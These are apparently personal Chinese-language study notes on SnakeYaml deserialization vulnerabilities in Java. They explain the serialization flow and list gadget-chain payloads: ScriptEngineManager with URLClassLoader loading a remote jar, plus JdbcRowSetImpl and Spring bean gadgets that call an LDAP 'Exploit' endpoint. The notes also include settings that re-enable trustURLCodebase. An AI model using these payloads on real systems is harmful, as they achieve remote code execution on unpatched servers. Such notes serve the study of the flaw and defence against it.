 # SnakeYaml 反序列化

>  序列化的流程

![image-20220225115239098](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220225115239098.png)

![](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220225115239098.png)

![image-20220225115345779](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220225115345779.png)

获取类的`fileds`，然后获取具体的数据，抽象成`Node`。

>反序列化

![image-20220225204927033](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220225204927033.png)

只能说，懂得都懂(

主要的还是通过`javax.script.ScriptEngineManager`的链子来利用。推测 fastjson的链子应该都可以使用(

```java
"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1/yaml-payload.jar\"]]]]"
```



## 漏洞复现

> poc生成:https://github.com/artsploit/yaml-payload
>
> 参考链接; https://www.mi1k7ea.com/2019/11/29/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#0x03-%E6%9B%B4%E5%A4%9AGadgets%E6%8E%A2%E7%A9%B6
>
> https://xz.aliyun.com/t/2042#toc-21

或者在web目录下面新建`/META-INF/services/javax.script.ScriptEngineFactory`然后来加载远程的恶意类。

> 在init()中调用了initEngines()，跟进initEngines()，**看到调用了`ServiceLoader<ScriptEngineFactory>`，这个就是Java的SPI机制，它会去寻找目标URL中`META-INF/services`目录下的名为javax.script.ScriptEngineFactory的文件，获取该文件内容并加载文件内容中指定的类即PoC，这就是前面为什么需要我们在一台第三方Web服务器中新建一个指定目录的文件，同时也说明了ScriptEngineManager利用链的原理就是基于SPI机制来加载执行用户自定义实现的ScriptEngineManager接口类的实现类，从而导致代码执行**：

其他的trick暂时不做过多的讨论了，因为和fastjson部分是差不多的，打算等到fastjson的时候细致地分析一波。RMI和LDAP了解的不是很深入，建议重新复习一下`EKI`的文章

:rabbit:**注意高版本的设置一下以下的两种属性**

- LDAP

```java
System.setProperty("com.sun.jndi.rmi.registry.trustURLCodebase","true");
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
```

- JdbcRowSetImpl

  ```java
  String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://localhost:1389/Exploit\"\n autoCommit: true";
  ```

  ![image-20220314205706320](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220314205706320.png)

- Spring PropertyPathFactoryBean

  > 需要在目标环境存在springframework相关的jar包，以我本地环境为例：snakeyaml-1.25，commons-logging-1.2，unboundid-ldapsdk-4.0.9，spring-beans-5.0.2.RELEASE，spring-context-5.0.2.RELEASE，spring-core-5.0.2.RELEASE。

  ```java
  String poc = "!!org.springframework.beans.factory.config.PropertyPathFactoryBean\n" +
                  " targetBeanName: \"ldap://localhost:1389/Exploit\"\n" +
                  " propertyPath: mi1k7ea\n" +
                  " beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory\n" +
                  "  shareableResources: [\"ldap://localhost:1389/Exploit\"]";
  ```

- Spring DefaultBeanFactoryPointcutAdvisor

  > 需要在目标环境存在springframework相关的jar包，以我本地环境为例：snakeyaml-1.25，commons-logging-1.2，unboundid-ldapsdk-4.0.9，spring-beans-5.0.2.RELEASE，spring-context-5.0.2.RELEASE，spring-core-5.0.2.RELEASE，spring-aop-4.3.7.RELEASE。

  大概触发逻辑在保`org.springframework.jndi.support.SimpleJndiBeanFactory`

  大概讲述一下这个过程，首先新建的是`"set":"xxx"`这样的一个键值对，然后呢开始新建他的属性类`org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor`,我们可以看到这里新建了两个，在第二个属性新建完成在put进去的时候，会触发`AbstractPointcutAdvisor`的`equals`方法，然后，又到后面的方法，这里大概的逻辑就是通过对比`advise`中的factor来进行比对

  ```java
  set:
      ? !!org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor
        adviceBeanName: "ldap://localhost:1389/Exploit"
        beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory
          shareableResources: ["ldap://localhost:1389/Exploit"]
      ? !!org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor []
  
  ```

- Apache XBean

  ```
  
  ```

  

## 不出网利用

>  参考链接:https://xz.aliyun.com/t/10655#toc-8

